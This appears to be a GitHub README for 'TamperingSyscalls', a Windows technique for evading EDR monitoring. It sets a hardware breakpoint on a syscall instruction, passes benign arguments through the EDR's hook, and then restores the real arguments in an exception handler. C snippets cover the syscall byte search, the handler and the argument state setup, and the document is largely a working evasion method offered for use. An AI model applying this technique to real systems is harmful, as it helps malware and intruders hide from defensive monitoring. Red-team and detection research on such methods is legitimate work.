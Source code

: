 # TamperingSyscalls

**Tampering with syscalls.** 

1. Set a hardware breakpoint on the address of a syscall instruction which has the bytes `0f05` on the Dr0 register.
We can locate the stub with this quick memory byte search.
```c
BYTE stub[] = { 0x0F, 0x05 };
	for( unsigned int i = 0; i < (unsigned int)25; i++ )
	{
		if( memcmp( (LPVOID)((DWORD_PTR)function + i), stub, 2 ) == 0 ) {
			return (LPVOID)((DWORD_PTR)function + i);
		}
	}
  ```
2. Make a call to this function with no arguments. The EDR will return us the SSN as our call is not malicious.
3. The EDR then returns flow to us. 
4. We then hit our syscall breakpoint where we enter our previously registered exception handler.
```c
SetUnhandledExceptionFilter( OneShotHardwareBreakpointHandler );
```
5. This exception handler will disable the hardware breakpoint for Dr0 only if the Dr0 and RIP match.
6. If it is matching, it'll switch on the StatePointer, and get the corresponding arguments for this function.
7. It will then fix the arguments into the register, and stack.
```c
switch( StatePointer ) {
case 0:
ExceptionInfo->ContextRecord->Rcx =
  (DWORD_PTR)((NtGetContextThread*)(StateArray[StatePointer].arguments))->ThreadHandle;
  ExceptionInfo->ContextRecord->Rdx =
	(DWORD_PTR)((NtGetContextThread*)(StateArray[StatePointer].arguments))->pContext;
// put your other states here.
```

## Howto
You need to implement your function arguments and setup the state.
For example the arguments for NtGetContextThread in a structure.
```c
typedef struct {
	HANDLE			ThreadHandle;
	PCONTEXT		pContext;
} NtGetContextThread;
```
Then make a global copy
```c
NtGetContextThread pNtGetThreadContext;
```
Then add this to the state array in the position we will be calling it
```c
{ 0 , &pNtGetThreadContext},
```
Then in the exception handler you need to fix arguments for the corresponding function. 

It's possible to provide the EDR with fake telemetry, but that would take away the focus of what is being achieved here. I leave that to another day or a blog post.


[TamperingSyscall's Blog Post](https://fool.ish.wtf/2022/08/tamperingsyscalls.html)
